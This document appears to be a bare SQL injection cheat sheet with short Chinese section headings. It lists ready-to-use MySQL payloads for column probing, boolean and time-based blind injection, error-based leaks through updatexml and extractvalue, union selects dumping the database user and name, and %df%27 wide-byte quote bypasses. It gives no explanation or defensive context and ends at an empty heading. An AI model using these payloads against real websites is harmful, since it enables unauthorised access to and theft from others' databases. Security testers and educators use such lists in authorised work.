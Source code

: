 ```linux
order+by+1--+
order+by+100--+
and length(database())>=1--+
and length(database())>=100--+
and (select count(*) from admin)>0; --+
and (select count(*) from admin)>100; --+
AND id != NULL; --+
or id != NULL; --+
and length((select user()))>=1--+
and length((select database()))>=1--+
and ord(substr(database(),1,1))=64--+
and ord(substr(database(),1,1))=150--+
and if(ascii(substr((select database()),1,1))>64, 1, 0)--+

# 判断时间注入语句
and sleep(3)--+
and (() or sleep(3))--+
and (select sleep(5))--+
and ('1'=' or sleep(3))--+
and if(length(database())>0,sleep(5),1)--+
and if(length((select user()))>1,sleep(10),0)--+
and if(length((select database()))>1,sleep(10),0)--+

# 判断报错注入语句
or updatexml(1,concat(0x5e5e,version(),0x5e5e),1)--+
union select 1,1,exp(~(select*from(select user())x))--+
union select 1,1,exp(~(select*from(select database())x))--+
union select updatexml(1,concat(0x7e,(select user()),0x7e),1)--+
union select updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
union SELECT 1,1,ExtractValue('<a><b><b/></a>',concat('~',(select user()),'~'))--+
union SELECT 1,1,ExtractValue('<a><b><b/></a>',concat('~',(select database()),'~'))--+
union select count(*),1, concat('~',(select user()),'~', floor(rand()*2)) as a from information_schema.tables group by a--+

# 联合查询注入，要让前面的参数不正确，这个才显示
union+select+1--+
union+select+1,2,3,4,5,6,7,8,9--+
union select @@version --+
union select user() --+
union select database()--+

# 宽字节注入
%a1%27 or 1--+
%df%27 and 1--+
%df%27 or()or 0
%a1%27 order+by+1--+
%df%27 or 0 union select 1,group_concat(schema_name) from information_schema.schemata--+
```

## 常用函数整合语句
